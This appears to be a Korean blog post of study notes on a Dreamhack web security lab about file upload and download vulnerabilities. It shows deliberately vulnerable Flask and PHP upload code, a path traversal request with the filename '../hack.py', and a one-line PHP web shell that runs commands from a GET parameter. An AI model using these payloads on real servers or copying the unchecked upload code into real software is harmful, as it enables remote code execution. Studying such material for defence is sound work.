 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (1)"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (1)

-  [x] 웹 셸 업로드 실습
-  [x] 악성 파일 업로드 실습


## ServerSide : File Vulnerability

이미지, 문서 등 파일 공유 서비스를 개발할 때, 이용자가 업로드한 파일을 데이터베이스가 아닌, 서버의 파일시스템에 저장하는 것이 개발하기 더 쉬복, 관리 효율이 높다. 그러나, 이러한 방식은 임의 파일이 다운로드 되는 취약점이나, 악성 웹셸 파일을 업로드하여 임의 코드를 실행할 수 있는 취약점을 발생시키기도 한다. File Vulnerability는 파일 업로드 취약점인  File Upload Vulnerability와 다운로드 취약점인 File Download Vulnerability로 나뉜다. 

- File Upload Vulnerability : 파일 시스템 상 임의 경로에 원하는 파일을 업로드하거나, 악성 확장자를 갖는 파일을 업로드할 수 있을 때 발생한다. 원하는 시스템 커맨드를 실행하는 워격 코드 실행 취약점을 유발할 수 있다

- File Download Vulnerability : 공격자는 웹 서비스의 파일 시스템에 존재하는 임의 파일을 다운로드 받을 수 있으며, 이에는 패스워드 파일, 데이터베이스 백업본 등이 포함되어, 민감한 정보의 탈취 및 2차 공격 수행이 가능하다

## File Upload Vulnerability
웹 서비스를 통해 이용자의 파일을 서버의 파일 시스템에 업로드하는 과정에서 발생하며, 이용자가 업로드될 파일의 이름을 임의로 정할 수 있을 때 발생한다. 파일 이름에 이용자가 입력한 문자열을 그대로 사용하거나, 이용자의 이메일, 닉네임 등을 포함시키는 등의 소스 코드 패턴이 이러한 취약점을 발생시킨다. 

### Path Traversal
파일 업로드를 허용하는 대개의 서비스는 보안을 위해 특정 디렉토리에만 업로드를 허용한다. 이러한 제한이 없다면, 악의적인 이용자가 웹 서버의 소스 코드나 서버에 있는 중요 시스템 파일을 덮어쓸 위험이 있다. Path Traversal은 업로드에 존재하는 이러한 제약을 우회하여, 임의 디렉토리에 파일을 업로드할 수 있는 취약점을 뜻한다.<br>

아래 코드는 Path Traversal 취약점이 있는 코드이다

```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```

/fileUpload는 POST 요청을 받으면 클라이언트가 전송한 파일을 ./uploads에 저장한다. 이 때 이용자가 입력한 파일 이름 f.file을 그대로 사용하기 때문에, Path Traversal에 취약하다. 예를 들어, 공격자가 ../와 같은 메타문자를 사용한다면, uploads를 벗어나 상위 디렉토리에 파일 업로드할 수 있다.<br>

**정상적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 정상적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, uploads 폴더에 test.txt가 생성된다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```


**악의적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 악의적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, app.py와 같은 디렉토리에 hack.py가 생성된다. hack.py가 app.py를 덮는다면, 서버가 재실행될 때 임의 파이썬 코드를 실행할 수 있을 것이다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

---

### 악성 파일 업로드
악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때 이를 제대로 검사하지 않아서 발생하는 취약점을 뜻한다. 

##### 웹 셸
웹 서버는 .php .jsp, .asp 와 같은 확장자의 파일을 CGI(Common Gatewqy Interface)로 실행하고, 그 결과를 이용자에게 반환한다. <br>
\*웹 셸 : 임의 시스템 명령어를 실행해주는 웹 리소스

```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이는 Apache 설정 파일로, 이용자가 요청한 파일의 확장자가 정규표현식을 만족하면, x-httpd-php로 핸들링하게 한다. x-httpd-php는 PHP 엔진으로, 요청한 파일을 실행하고 결과를 반환하며, .php, .php3, .phtml 의 확장자 파일들이 위 해당 정규표현식을 만족한다. <br><br>
위와 같은 방법으로 php 파일을 핸들링할 경우, 공격자가 임의의 php 파일을 .php 확장자로 업로드하고, GET 요청을 보낼 수 있다면 CGI에 의해 해당 코드가 실행되도록 할 수 있다.

##### 악의적인 웹 리소스
웹 브라우저는 파일의 확장자나 응답의 Content-Type에 따라 요청을 다양하게 처리한다. 요청한 파일의 확장자가 .html 또는, 반환된 Content-Type의 헤더가 text/html일 경우, 응답은 HTML 엔진으로 처리된다. 또한, 파일의 확장자가 .png, .jpg 등의 이미지 확장자이거나, Content-Type이 image/png일 경우에는 이미지로 렌더링 된다. <br><Br>
만약 공격자가 서버에 exploit.html을 업로드하고, 이에 접근하는 URL이 https:// dreamhack.io/uploads/exploit.html 이라면, 브라우저는 이를 HTML로 해석한다. 따라서 exploit.html에 악의적인 스크립트를 삽입하면, Cross-Site-Scripting (XSS) 공격으로 이어질 수 있습니다.

---

### 악성 파일 업로드 실습

악성 파일 업로드 모듈 구성 코드

```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```

파일 이름을 임의의 파일명 + . + 확장자 로 생성하므로, Path Traversal을 이용한 공격은 불가능하다. 하지만, 이용자가 올린 확장자를 별다른 검사 없이 사용하므로 php 웹셸을 업로드할 수 있다. 또한, html 파일을 업로드하여 Stored XSS를 수행할 수도 있다.<br>

##### 웹 셸 업로드

```php
<?php
  system("ls");
  system($_GET[x]);
?>
```

##### Stored XSS 시도

악성 파일 업로드

<img src = "/images/webbackground/12.png"><br>

업로드 된 파일 실행

<img src = "/images/webbackground/13.png"><br>